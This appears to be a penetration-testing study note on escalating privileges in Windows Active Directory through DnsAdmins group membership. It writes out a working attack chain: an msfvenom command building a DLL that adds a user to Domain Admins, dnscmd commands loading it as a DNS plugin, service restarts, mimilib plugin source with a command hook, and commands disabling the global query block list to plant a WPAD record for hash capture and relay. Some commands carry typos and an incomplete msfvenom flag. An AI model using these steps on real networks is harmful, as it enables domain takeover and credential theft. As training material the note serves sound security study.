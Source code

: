 The Windows DNS service supports custom plugins and can call functions from them to resolve
name queries that are not in the scope of any locally hosted DNS zones.

The DNS service runs as `NT AUTHORITY\SYSTEM`. Membership in this group could potentially be
leveraged to escalate privileges on the DC or in a situation where a separate server is acting
as the DNS server for the domain.

It's possible to use the built-in `dnscmd` utility to specify the path of the plugin DLL.
Here's an example of an attack when DNS is run on a DC:

https://adsecurity.org/?p=4064

- DNS management is performed over RPC
- `SeverLevelPluginDll` allows us to load a custom DLL with no verification of the path using `dnscmd`
- When a `DnsAdmins`  group member runs the command below, the `ServerLevelPluginDll` regkey is populated.

- When the DNS service is restarted, the DLL in this path will be loaded 
- (ie, a network share DC can access).

- An attacker can load a custom DLL to obtain a reverse shell or load tools like Mimikatz as a DLL.

## Leveraging DnsAdmins Access

##### Generating Malicious DLL
```bash
msfvenom - windows/x64/exec cmd=
	'net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

sudo python3 -m http.server 7777
```

- Download the DLL to the target
- Use the `dnscmd` utility to load a custom DLL with non-privileged user and...
```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
( Access Denied )
```

- Only DnsAdmins are allowed to perform this, as expected. WHOOPS?
- We need to load this DLL as a DnsAdmin:
```
Get-ADGroupMember -Identity DnsAdmins
dnscmd.exe /config /serverlevelplugindll C:\Users\netadmn\Desktop\adduser.dll
```

Once the DLL is added we can either restart the DNS service if we have the rights or we would 
wait for a server restart.

Check our current user's permissions on the DNS Service.

##### Finding User's SID for the DNS Service
```
wmic useraccount where name="netadm" get sid
sc.exe sdshow DNS
sc stop dns
sc start dns
net group "Domain Admins" /dom
```

Here's an explaination of Security Descriptor Definition Language (SDDL) syntax:
https://academy.hackthebox.com/module/49/section/1016

## Cleaning Up For Our Customer
```
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
					/v ServerLevelPluginDll
sc.exe start dns
sc query dns
```

## Using Mimilib.dll

```cpp
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(
	PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, 
	PLUGIN_FREE_FUNCTION pDnsFreeFunction
)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(
	PSTR pszQueryName, 
	WORD wQueryType, 
	PSTR pszRecordOwnerName, 
	PDB_RECORD *ppDnsRecordListHead
)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

Membership in this group gives us the rights to disable global-query blocking security, 
which will block this attack by default.

Server 2008 first introduced the ability to add to a global query block list on a DNS server.
By default, Web Proxy Automatic Discovery Protocol (WAPD) and Intra-site Automatic Tunneling
Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite
vulnerable to hijacking and any domain user can create a computer object or DNS record
containing those names.

After disabling the global query block list and creating a WPAD record, every machine running
WAPD with default settings will have it's traffic proxied through our attack machine.

We could use a tool like Responder or Inveigh to perform traffic spoofing and attempt to capture
password hashes and crack them offline, or perform an SMBRelay attack.

##### Disabling the Global Query Block List
```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local 
	-ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

